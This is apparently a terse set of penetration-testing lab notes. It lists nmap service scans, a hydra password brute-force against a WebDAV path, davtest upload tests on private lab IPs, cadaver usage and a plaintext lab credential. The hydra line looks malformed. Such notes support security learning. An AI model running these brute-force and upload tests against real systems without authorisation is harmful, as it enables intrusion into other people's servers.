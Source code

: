 nmap -sV -sC IP
nmap scripts 
--script=http-enum 
hydra -L/common_users t -P /common_passwords IP http-get /webdav/ 
davtest -url http://10.2.17.124/webdav
cadaver --help 
cadaver 

davtest -auth bob:password_123321 -url http://10.6.26.128/webdav
